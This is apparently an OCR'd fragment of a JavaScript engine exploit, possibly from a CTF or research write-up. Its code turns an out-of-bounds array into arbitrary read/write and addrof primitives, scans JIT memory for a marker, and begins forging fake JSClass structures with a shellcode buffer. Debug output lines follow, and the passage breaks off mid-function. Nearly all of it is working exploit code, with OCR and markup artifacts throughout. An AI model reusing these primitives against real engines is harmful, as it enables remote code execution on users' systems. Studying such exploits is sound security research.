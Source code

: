 ```
        oob[34] = 0x100;
        ptrleak = new Uint32Array(buf[7]);
        leak = ptrleak[0] + (ptrleak[1]&amp;0x7fff)*0x100000000;
        return leak;
    `}`
    function addrof(obj)`{`
        buf[7].leak = obj;
        return readptr(buf7_slots_addr);
    `}`
    function write64(addr,data)`{`
        oob64[16] = i2f(addr/2);
        oob[34] = 0x100;
        towrite = new Float64Array(buf[7]);
        towrite[0] = i2f(data);
    `}`

    function get_jit_addr(slots_addr)`{`
//        func_addr = readptr(slots_addr);
        func_addr =  addrof(func);
        print("func_addr "+hex(func_addr));
        func_some = readptr(func_addr+0x30);
        print("func_some "+hex(func_some));
        jit_addr = readptr(func_some);
        print("jit_addr "+hex(jit_addr));

        jit_addr = jit_addr - 0xff0;
        for(let i=0;i&lt;3;i++)`{`
            offset=-1;
            oob64[16] = i2f(jit_addr/2);
            oob[34] = 0xff0+0x100;
            tmp = new Uint8Array(buf[7]);
            for(let j=0;j&lt;0xff0;j++)`{`
                if(tmp[j+0]==0x37 &amp;&amp;
                   tmp[j+1]==0x13 &amp;&amp;
                   tmp[j+2]==0x37 &amp;&amp;
                   tmp[j+3]==0x13 &amp;&amp;
                   tmp[j+4]==0x37 &amp;&amp;
                   tmp[j+5]==0x13 &amp;&amp;
                   tmp[j+6]==0x37 &amp;&amp;
                   tmp[j+7]==0x13)`{`
                    offset=j;
                    break;
                `}`
            `}`
            if(offset!=-1)break;
            jit_addr+=0xff0;
        `}`
        print(hex(offset));
        return jit_addr+offset+8+6;
    `}`
    jit_addr = get_jit_addr(buf7_slots_addr);
    print("jit_addr "+hex(jit_addr));

    function gen_fake_jsclass(group_addr)`{`
        group_jsclass = readptr(group_addr);
        print("group_jsclass "+hex(group_jsclass));
        fake_jsclass_array = new ArrayBuffer(0x30);
        fake_cops_array = new ArrayBuffer(0x60);
        shellcode = new Uint8Array(0x1000);

        fake_jsclass_addr = addrof(fake_jsclass_array)+0x40;
        fake_cops_addr = addrof(fake_cops_array) + 0x40;

```

[+]: 0 96
[+]: 1 96
[+]: 2 96
[+]: 3 96
[+]: 4 96
[+]: 5 96
[+]: 6 256
[+]: 7 96
[+]: 8 96
[+]: 9 96
[+]: 10 96
[+]: 11 96
[+]: 12 96
[+]: 13 96
[+]: 14 96
[+]: 15 96